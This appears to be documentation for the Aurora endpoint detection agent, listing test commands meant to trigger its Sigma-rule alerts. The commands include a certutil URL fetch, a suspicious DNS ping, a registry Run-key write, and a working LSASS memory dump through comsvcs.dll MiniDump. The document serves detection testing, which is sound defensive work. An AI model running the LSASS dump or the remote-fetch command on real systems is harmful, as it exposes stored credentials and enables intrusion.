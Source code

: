 Function Tests
==============

There are easy ways to test Aurora and see if it matches suspicious / malicious events.

Process Creation
----------------

This should create a ``WARNING`` level message for a Sigma rule with level ``high``.

.. code:: winbatch

    whoami /priv

This should create a ``WARNING`` level message for a Sigma rule with level ``high``.

.. code:: winbatch

    certutil.exe -urlcache http://test.com

Included in profiles: Minimal, Reduced, Standard, Intense

Network Communication
---------------------

This should create a ``ALERT`` level message for a Sigma rule with level ``critical``.

.. code:: winbatch 

    ping aaa.stage.123456.test.com

Included in profiles: Minimal, Reduced, Standard, Intense

File Creation
-------------

This should create a ``WARNING`` level message for a Sigma rule with level ``high``.

.. code:: winbatch 

    echo "test" > %temp%\lsass.dmp

Included in profiles: Minimal, Reduced, Standard, Intense

Process Access
-------------

This should create a ``WARNING`` level message for a Sigma rule with level ``high``.

.. code:: powershell 

    $id = Get-Process lsass; rundll32.exe C:\Windows\System32\comsvcs.dll , MiniDump $id.Id $env:temp\lsass.dmp full

Cleanup:

.. code:: winbatch
    del /f %temp%\lsass.dmp

Included in profiles: Standard, Intense

Registry
--------

This should create a ``WARNING`` level message for a Sigma rule with level ``high``.

.. code:: winbatch 

    reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\AuroraTest" /V "AuroraTest" /t REG_SZ /F /D "vbscript"

Cleanup:
.. code:: winbatch

    reg delete "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\AuroraTest" /F 

Included in profiles: Intense
